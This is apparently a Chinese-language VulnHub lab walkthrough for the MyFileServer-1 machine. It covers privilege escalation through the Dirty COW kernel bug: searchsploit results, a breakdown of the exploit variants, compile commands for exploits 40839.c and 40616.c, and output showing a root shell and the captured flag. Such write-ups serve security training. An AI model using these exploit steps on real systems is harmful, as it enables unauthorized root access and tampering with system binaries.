

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2016-5195] dirtycow
```

linpeas 明确指出当前内核存在 **CVE-2016-5195（Dirty COW 脏牛漏洞）**，该漏洞适用于当前内核版本，进入脏牛利用阶段。

---
## 3.7 Dirty COW 漏洞说明

#### 关键术语解释

理解 searchsploit 的搜索结果前，先明确几个核心术语：

- **Dirty COW**：脏牛漏洞。COW 是 Copy-on-Write（写时复制）的缩写，这是 Linux 内存管理的一种机制，该漏洞正是利用了这一机制中的竞争条件缺陷。
- **Privilege Escalation**：权限提升，即从普通用户提升至 root 权限。
- **Race Condition**：竞争条件，漏洞利用原理是在系统处理并发操作时抢占"时间窗口"触发错误行为。

#### searchsploit 搜索结果

```bash
┌──(kali㉿kali)-[~/vulnhub/MyFileServer-1/PE]
└─$ searchsploit dirty cow
```



```bash
┌──(kali㉿kali)-[~/vulnhub/MyFileServer-1]
└─$ searchsploit linux kernel 3 | grep "Dirty COW"
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race  | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition  | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Conditi | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition  | linux/local/40611.c
```

#### 结果分类解析

搜索结果按利用方式分为三类：

**① Dos 破坏类（路径含 `dos/`）**

`The Huge Dirty Cow` 系列利用的是对大零页内存的覆盖写入，目的是造成内核崩溃，属于**拒绝服务攻击（Denial of Service）**，不会产生提权效果。靶机练习中**绝对不要使用**，会直接导致虚拟机宕机。

**② /proc/self/mem 竞争写入类（经典利用方式）**

这类 exp 通过 `/proc/self/mem`（Linux 中进程访问自身内存的特殊文件接口）触发竞争条件，绕过只读保护强行写入内存。按具体利用手法又细分为三种：

- **Write Access Method**（`40611.c`）：纯概念验证，仅测试能否向只读内存写入，**不会**产生提权效果，通常用于漏洞确认。
- **SUID Method**（`40616.c`）：将恶意代码注入系统中带有 SUID 权限的可执行文件，下次运行该程序时以 root 身份执行，从而完成提权。
- **/etc/passwd Method**（`40847.cpp`）：**最直接有效的提权方式**。直接覆写 `/etc/passwd`，在其中插入一个自定义的 root 级别账户（通常为 `firefart`），之后切换至该账户即获得 root 权限。

**③ PTRACE_POKEDATA 竞争写入类（补丁绕过版本）**

部分系统管理员针对 `/proc/self/mem` 路径打了补丁，这类 exp 改用 `ptrace` 调试接口中的 `PTRACE_POKEDATA` 功能触发相同的竞争条件，属于对上述漏洞的绕过变体。同样包含 Write Access 验证版和 `/etc/passwd` 提权版，利用逻辑与第②类一致，只是底层触发方式不同。


## 3.8 Dirty COW 漏洞利用尝试

### 下载 EXP 并尝试编译

将 `40839.c` 从攻击机下载到靶机 `/tmp` 目录后，执行默认编译命令，报错如下：

```bash
gcc 40839.c -o 40839
```

编译失败，出现两类链接错误：

**a.`undefined reference to 'crypt'`**

`40839.c` 在写入新账户时需调用 `generate_password_hash()` 对明文密码进行哈希加密，该函数依赖 Linux 系统的 `crypt` 加密库，编译时须显式链接，需追加 `-lcrypt` 参数。

**b. `undefined reference to 'pthread_create'` / `pthread_join`**

Dirty COW 漏洞的核心原理是**竞争条件（Race Condition）**——需同时开启多个线程，一边持续读取、一边持续写入，以触发内核竞态 Bug。代码依赖 POSIX 多线程库，需追加 `-pthread` 参数。

**正确编译命令：**

```bash
gcc 40839.c -o 40839 -pthread -lcrypt
```

> Linux 惯例：编译成功无任何输出，当前目录生成可执行文件 `40839` 即为成功。

#### 切换 EXP

运行 `40839` 后 SSH 会话卡死并断开，放弃该 EXP，改用 `40616.c`。

编译 `40616.c` 时出现警告（非报错），提示 `lseek()` 参数类型不匹配，但不影响编译通过：

```bash
gcc 40616.c -o 40616 -pthread
```

```bash
[smbuser@fileserver tmp]$ gcc 40616.c -o 40616 -pthread
40616.c: In function ‘procselfmemThread’:
40616.c:99:9: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from 40616.c:28:0:
/usr/include/unistd.h:334:16: note: expected ‘__off_t’ but argument is of type ‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
```

---

## 3.9 获取 Root Shell

执行 `40616`，漏洞利用成功：

```
[smbuser@fileserver tmp]$ ./40616
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Racing, this may take a while..
thread stopped / thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
```

该 EXP 的原理是将 `/usr/bin/passwd` 二进制文件替换为具有 SUID 权限的 root shell，执行后直接获得 root 提示符。

**权限验证：**

```
[root@fileserver tmp]# whoami
root
[root@fileserver tmp]# id
uid=0(root) gid=1000(smbuser) groups=0(root),1000(smbuser)
[root@fileserver tmp]# hostname
fileserver
```

> **注意：** EXP 提示需在利用完成后将备份文件 `/tmp/bak` 还原至 `/usr/bin/passwd`，否则系统密码功能将失效。
> 
> 执行 `ip a` 查询网卡信息时 SSH 连接被重置断开，后续步骤需重新建立连接。




# 4. 总结

**本次失误：**

1. 在基础信息收集阶段，我确实收集到了需要的相关信息。也想到了 `smbuser:rootroot1` 的组合，但是只在 smbclient 上尝试了，没有想到去尝试 ftp。

2. 对于收集到的日志文件，没有想到查看 ssh_config 文件，也没有读懂 ssh_config 文件中的内容。

3. 不会在 Linux 上创建公私钥并上传。

4. 在提权阶段，没有先尝试用已经获得的凭证去获取 root 密码。

---
# 5. 补充（其他提权方法）

其实root的密码就是rooroot1，我竟然获得shell后，忘记尝试这个在网页中获得密码。

```
[root@fileserver ~]# ls
proof.txt
[root@fileserver ~]# cat proof.txt 
Best of Luck
af52e0163b03cbf7c6dd146351594a43
```
